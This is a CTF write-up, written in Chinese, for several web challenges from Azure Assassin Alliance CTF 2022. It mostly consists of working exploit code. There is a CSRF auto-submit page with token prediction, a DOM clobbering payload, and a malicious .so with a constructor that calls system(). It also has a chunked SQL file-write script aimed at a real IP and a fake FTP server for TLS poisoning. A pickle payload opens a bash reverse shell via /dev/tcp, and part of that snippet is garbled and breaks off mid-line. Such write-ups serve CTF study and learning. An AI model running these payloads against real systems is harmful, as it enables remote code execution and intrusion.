

# Azure Assassin Alliance CTF 2022

## [web]

### **gogogo**

[https://tttang.com/archive/1399/](https://tttang.com/archive/1399/)

写一个劫持LD_PRELOAD的动态链接库

发包爆pid即可

### **beWhatYouWannaBe**

想办法变admin

有browser

flag1

```js
//服务器 test.js
const app = require('express')()
const crypto = require('crypto')
const LISTEN = '0.0.0.0'
const PORT = 11224
app.set('view engine', 'ejs')
app.get('/', (req, res) => {
    var sha256 = crypto.createHash('sha256');
    var time = Date.now()-511;
    var time2 = Math.floor(time / 1000)-1;
    var time3 = Math.sin(time2).toString()
    var tooken = sha256.update(time3).digest('hex');
    console.log(`time:${time}`);
    console.log(`time2:${time2}`);
    console.log(`time3:${time3}`);
    console.log(`token:${tooken}`);
    console.log("-------------");
    res.render('test', { name:  tooken   })
})
app.listen(PORT, LISTEN, () => {
    console.log(`listening ${LISTEN}:${PORT}...`)
})
//test.ejs
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost:8000/beAdmin" method="POST">
      <input type="hidden" name='username' value='liao' />
      <input type="hidden" name='csrftoken' value='<%= name %>' />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
  <h1><%= name %></h1>
</html>
```

flag2

page.evaluate在浏览器中执行，过滤js执行，考虑dom破坏

[https://portswigger.net/research/dom-clobbering-strikes-back](https://portswigger.net/research/dom-clobbering-strikes-back)

来个四重的就行了

```html
index.html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
</head>
<body>
<style>@import 'http://ip:port/aa';</style>
<iframe name=fff srcdoc="
<iframe srcdoc='<input id=aaa name=ggg href=cid:Clobbered value=this_is_what_i_want>test</input><a id=aaa>' name=lll>"></iframe>
</body>
</html>
```

### **pooru**

直接登录admin账号，修改api为getflag

​ 

### **myclient**

mysqli_options 可控

[https://www.php.net/manual/zh/mysqli.options.php](https://www.php.net/manual/zh/mysqli.options.php)

设置 MYSQLI_INIT_COMMAND 执行任意sql语句

设置 MYSQLI_READ_DEFAULT_FILE 可以从指定的文件中读取客户端配置选项

写入一个恶意so文件和一个自定义客户端配置 然后加载客户端配置会去加载自定义plugin.so实现客户端rce

[https://dev.mysql.com/doc/c-api/5.7/en/c-api-plugin-interface.html](https://dev.mysql.com/doc/c-api/5.7/en/c-api-plugin-interface.html)

a client that supports the use of authentication plugins normally causes a plugin to be loaded by calling [mysql_options()](https://dev.mysql.com/doc/c-api/5.7/en/mysql-options.html) to set the MYSQL_DEFAULT_AUTH and MYSQL_PLUGIN_DIR options:

恶意so生成

```c
#define _GNU_SOURCE

#include <stdlib.h>

__attribute__ ((__constructor__)) void preload (void)
{
    system("touch /tmp/pwned");
}

//# gcc evil450.c -o evil450.so --shared -fPIC
```

```
//mmmmy.cnf
[client]#
plugin_dir=/tmp/e10adc3949ba59abbe56e057f20f883e #
default_auth=evil450 #
default_authentication_plugin = evil450 #
default_authentication = evil450 #
init-command=SELECT 0x(恶意so的十六进制) INTO DUMPFILE "/tmp/e10adc3949ba59abbe56e057f20f883e/evil450.so";#
```

mysql写文件把mmmmy.cnf 写入 /tmp/e10adc3949ba59abbe56e057f20f883e/mmmmy.cnf 然后访问

[http://ip:port/index.php?key=4&value=/tmp/e10adc3949ba59abbe56e057f20f883e/mmmmy.cnf](http://ip:port/index.php?key=4&value=/tmp/e10adc3949ba59abbe56e057f20f883e/mmmmy.cnf)

执行任意命令

文件分块传输，最后用sql语句拼接，exp:

mysql 写文件会在行末加 \ 注意截取 别吞byte 会导致so损坏

```python
import requests
url = "http://124.71.205.170:10047/index.php"
payload = []
with open("res1.txt","r") as f:#res1.txt 是 mmmmy.cnf文件的十六进制
    file_data = f.read()
i = 0
j = 0
while i < len(file_data):
    if i + 1000 > len(file_data):
        values = file_data[i:]
    else:
        values = file_data[i:i + 1000]
    i = i + 1000
    j = j + 1
    payload+=[values]
#分块长度，1000个十六进制，500个字符
length = int(500)
#生成分块文件的sql语句
filenames = []
i=0
for v in payload:
    filename = "/tmp/e10adc3949ba59abbe56e057f20f883e/ROIS"+str(i)
    filenames += [filename]
    sql = "select 0x"+v+" into outfile '"+filename+"'"
    print(sql)
    i+=1
    params = {
        "key" : 3,
        "value" : sql
    }
    resp = requests.get(url,params)
    print(resp.text)
#文件合并
sqlinit = "select 0x"+payload[1]+" into outfile '/tmp/e10adc3949ba59abbe56e057f20f883e/ROIStmp1'"
params = {
        "key" : 3,
        "value" : sqlinit
    }
resp = requests.get(url,params)
i=1
for v in filenames:
    if i==len(filenames)-1:
        break
    sql2 = "select concat_ws('',(select substr(load_file('/tmp/e10adc3949ba59abbe56e057f20f883e/ROIStmp"+str(i)+"'),1,"+str(length*(i))+")),(select substr(load_file('"+filenames[i+1]+"'),1,"+str(length)+")))  into outfile '/tmp/e10adc3949ba59abbe56e057f20f883e/ROIStmp"+str(i+1)+"';"
    print(sql2)
    params = {
        "key": 3,
        "value": sql2
    }
    resp = requests.get(url, params)
    i += 1
sqlinit = "select concat_ws('',(select substr(load_file('/tmp/e10adc3949ba59abbe56e057f20f883e/ROIS0'),1,505)),(select substr(load_file('/tmp/e10adc3949ba59abbe56e057f20f883e/ROIStmp58'),1,28582)))  into outfile '/tmp/e10adc3949ba59abbe56e057f20f883e/ROIStmp59.cnf';"#mysql写文件换行会在行末加 \ 注意截断，自己debug
params = {
        "key" : 3,
        "value" : sqlinit
    }
resp = requests.get(url,params)
requests.get(url+"?key=4&value=/tmp/e10adc3949ba59abbe56e057f20f883e/ROIStmp59.cnf")
requests.get(url+"?key=4&value=/tmp/e10adc3949ba59abbe56e057f20f883e/ROIStmp59.cnf")
```

### **ToLeSion**

用ftps协议进行tls投毒，打memcached

开一个tls恶意服务端，将上层流量转给2048端口开的恶意vsftpd服务

tls恶意服务端：

```
custom-tls -p 11200 --certs /root/tls/fullchain.pem --key /root/tls/privkey.pem forward 2048
```

恶意vsftpd服务：

```python
#exp.py
#!/usr/bin/env python3
import socketserver, threading,sys


class MyTCPHandler(socketserver.StreamRequestHandler):
    def handle(self):
        print('[+] connected', self.request, file=sys.stderr)
        print('send 1')
        self.request.sendall(b'220 (vsFTPd 3.0.3)\r\n')


        self.data = self.rfile.readline().strip().decode()
        print(self.data, file=sys.stderr,flush=True)
        print('send 2')
        self.request.sendall(b'230 Login successful.\r\n')


        self.data = self.rfile.readline().strip().decode()
        print(self.data, file=sys.stderr)
        print('send3')
        self.request.sendall(b'200 yolo\r\n')


        self.data = self.rfile.readline().strip().decode()
        print(self.data, file=sys.stderr)
        print('send4')
        self.request.sendall(b'200 yolo\r\n')


        self.data = self.rfile.readline().strip().decode()
        print(self.data, file=sys.stderr)
        print('send5')
        self.request.sendall(b'257 "/" is the current directory\r\n')


       # self.data = self.rfile.readline().strip().decode()
       # print(self.data, file=sys.stderr)
       # print('send 6')
       # self.request.sendall(b'250 Directory successfully changed.\r\n')
        


        self.data = self.rfile.readline().strip().decode()
        print(self.data, file=sys.stderr)
        print('send 6')
        self.request.sendall(b'227 Entering Passive Mode (127,0,0,1,43,192).\r\n')
       # self.request.sendall(b'229 Entering Extended Passive Mode (|||10017|)\r\n')
        
        self.data = self.rfile.readline().strip().decode()
        print(self.data, file=sys.stderr)
        print('send 7')
        #self.request.sendall(b'229 Entering Extended Passive Mode (|||11200|)\r\n')
        self.request.sendall(b'227 Entering Passive Mode (127,0,0,1,43,192).\r\n')
        import time
        #time.sleep(1)
        self.data = self.rfile.readline().strip().decode()
        print('send 8')
        print(self.data, file=sys.stderr)
        self.request.sendall(b'200 Switching to Binary mode.\r\n')


        self.data = self.rfile.readline().strip().decode()
        print(self.data, file=sys.stderr)
        print('send 9')
        self.request.sendall(b'125 Data connection already open. Transfer starting.\r\n')


        self.data = self.rfile.readline().strip().decode()
        print(self.data, file=sys.stderr)
        print('send 10')
        # 226 Transfer complete.
        self.request.sendall(b'250 Requested file action okay, completed.')
        exit()


def ftp_worker():
    with socketserver.TCPServer(('0.0.0.0', 2048), MyTCPHandler) as server:
        while True:
            server.handle_request()
threading.Thread(target=ftp_worker).start()
```

然后访问[http://123.60.131.135:10023/?url=ftps://domain.com:11200/即可写入memchached](http://123.60.131.135:10023/?url=ftps://domain.com:11200/%E5%8D%B3%E5%8F%AF%E5%86%99%E5%85%A5memchached)

memcached pickle反序列化rce

pickel生成：

```python
import pickle 
import os
from memcache import Client    
victim = "127.0.0.1"     
class RCE:     
    def __reduce__(self):         
        cmd = f"/bin/bash -c 'bash -i >& /dev/tcp/ip/port 0>&1'"        
        return os.system, (cmd,)  mc = Client(['127.0.0.1:11200']) mc.set("actfSession:you_have_been_pwned", pickle.dumps(RCE())) print(mc.get("actfSession:450450450
```

携带cookie访问flask即可反弹shell

Cookie: BD_UPN=12314753; session=450450450
